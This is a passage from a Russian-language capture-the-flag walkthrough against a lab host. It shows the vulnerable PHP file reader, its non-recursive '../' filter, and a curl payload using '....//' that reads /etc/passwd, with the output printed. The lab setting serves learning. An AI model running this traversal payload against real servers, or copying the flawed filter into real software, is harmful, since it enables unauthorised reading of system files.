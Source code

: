 Как и ожидалось, строка `"../"` заменяется пустотой `""`.

Теперь взглянем на исходники `fileRead.php`:
```text
root@kali:~# curl -s -X POST -d 'file=fileRead.php' http://10.10.10.87/fileRead.php | jq -r .'file'
```

```php
<?php


if($_SERVER['REQUEST_METHOD'] === "POST"){
        $fileContent['file'] = false;
        header('Content-Type: application/json');
        if(isset($_POST['file'])){
                header('Content-Type: application/json');
                $_POST['file'] = str_replace( array("../", "..\""), "", $_POST['file']);
                if(strpos($_POST['file'], "user.txt") === false){
                        $file = fopen("/var/www/html/" . $_POST['file'], "r");
                        $fileContent['file'] = fread($file,filesize($_POST['file']));
                        fclose();
                }
        }
        echo json_encode($fileContent);
}
```

Такое же правило фильтрации *плюс* дополнительное ограничение: запрет на чтение файла `user.txt`. Не очень-то и хотелось, ибо вектор атаки напрашивается сам собой: функция `str_replace()` вызывается **не**рекурсивно, поэтому последовательность `"....//"` превратится в нужную нам `"../"` после того, как к ней будет применен описанный выше фильтр.

Таким образом, попробуем прочитать `/etc/passwd` для того, чтобы проверить теорию на практике:
```text
root@kali:~# curl -s -X POST -d 'file=....//....//....//etc/passwd' http://10.10.10.87/fileRead.php | jq -r .'file'
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
